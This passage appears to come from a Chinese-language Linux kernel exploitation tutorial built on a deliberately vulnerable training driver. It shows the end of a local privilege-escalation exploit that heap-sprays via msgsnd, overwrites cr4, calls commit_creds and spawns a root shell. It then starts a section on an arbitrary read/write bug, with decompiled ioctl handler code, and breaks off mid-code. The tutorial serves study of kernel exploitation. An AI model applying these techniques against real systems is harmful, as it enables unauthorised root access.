 ```
`{`
    commit_creds_addr(prepare_kernel_cred_addr(0));
`}`

int main(int argc,char * argv[])`{`
    init();
    save_user_status();
    leak_kernel_base();

    int fd = open("/dev/vulnerable_device",0);
    if (fd &lt; 0)`{`
        puts("open fail!");
        return 0;
    `}`

    heap_spray_msgsnd(fd,native_write_cr4_addr,0x6E0);
    heap_spray_msgsnd(fd,(size_t)get_root,0);

    if(getuid() == 0) `{`
        printf("[!!!] Now! You are root! [!!!]n");
        system("/bin/sh");
    `}`
    return 0;
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-04-26-125416.png)



## 0x03 从任意地址读写提权

我们这里仍然以`vulnerable_linux_driver`为例，这里我们使用它的任意地址读写漏洞模块。

### <a class="reference-link" name="%E6%A8%A1%E5%9D%97%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>模块漏洞分析

与任意地址读写相关的交互函数如下：

**申请并初始化一个mem_buffer结构体将其存于全局变量g_mem_buffer，申请一个用户传入大小的chunk将其存于g_mem_buffer -&gt; data，交互码`0x8008FE07`：**

```
case 0x8008FE07:
if ( !copy_from_user(&amp;s_args, v3, 8LL) )
`{`
    if ( !s_args )
        return 0LL;
    if ( *(&amp;g_mem_buffer + 0x20000000) )
        return 0LL;
    g_mem_buffer = kmem_cache_alloc_trace(kmalloc_caches[5], 0x24000C0LL, 0x18LL);
    if ( !g_mem_buffer )
        return 0LL;
    g_mem_buffer-&gt;data = _kmalloc(s_args, 0x24000C0LL);
    if ( g_mem_buffer-&gt;data )
    `{`
        g_mem_buffer-&gt;data_size = s_args;
        g_mem_buffer-&gt;pos = 0LL;
        printk(&amp;unk_6F8,g_mem_buffer-&gt;data_size); // 6[x] Allocated memory with size %lu [x]
    `}`
    else
    `{`
        kfree(g_mem_buffer);
```